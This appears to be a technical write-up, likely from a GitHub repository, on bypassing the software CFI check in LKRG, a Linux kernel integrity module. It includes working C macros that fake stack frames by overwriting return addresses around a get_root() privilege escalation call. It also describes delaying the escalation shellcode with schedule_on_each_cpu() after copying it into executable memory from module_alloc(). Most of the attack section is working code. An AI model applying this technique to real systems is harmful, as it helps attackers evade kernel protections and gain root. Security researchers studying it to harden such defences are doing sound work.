 CFI bypass
==========

Software-based CFI mitigation (pCFI) was intoduced in LKRG 0.6 (https://www.openwall.com/lists/lkrg-users/2019/02/19/1).

The idea behind this mitigation is that LKRG walks through the call stack checking if the stack-frame has the address which belongs to the kernel. Once it detects the address which points outside the kernel's text it will trigger an alarm.

Bypassing LKRG's pCFI mitigation will be implemented within 2 steps:
 - facking stack frames while operating
 - postponing the execution of privelege escalation payload with `schedule_on_each_cpu()`

Here is the code which helps to fake stack frames:

~~~
struct stack_frame {
	struct stack_frame *next_frame;
	unsigned long return_address;
};

#define cfi_bypass_enter(frames, depth) \
do { \
	struct stack_frame *frame = __builtin_frame_address(0); \
	for (int i = 1; i < (depth); i++) { \
		frames[i] = *frame; \
		frame->return_address = X_printk; \
		frame = frame->next_frame; \
	} \
} while (0)

#define cfi_bypass_leave(frames, depth) \
do { \
	struct stack_frame *frame = __builtin_frame_address(0); \
	for (int i = 1; i < (depth); i++) { \
		*frame = frames[i]; \
	frame = frame->next_frame; \
	} \
} while (0)

void get_root()
{
	struct stack_frame frames[ 8 ];
	cfi_bypass_enter(frames, sizeof(frames) / sizeof(frames[0]));
	get_root_real();
	cfi_bypass_leave(frames, sizeof(frames) / sizeof(frames[0]));
}
~~~

Here, `cfi_bypass_enter` is a macro which fakes `N` frames by:
 - saving them locally to `frames` array
 - replacing `return_address` of each frame so it will point to some address in kernel's text

Once the call to `get_root_real()` is done `cfi_bypass_leave` macro does the opposite: it restores all the saved frames from the `frames` array.

As for the privelege escalation part - its execution is postponed using `schedule_on_each_cpu()` function. For that `module_alloc()` is used to allocate excutable/writable memory to which the "shellcode" containing the privelege escalation logic is copied.
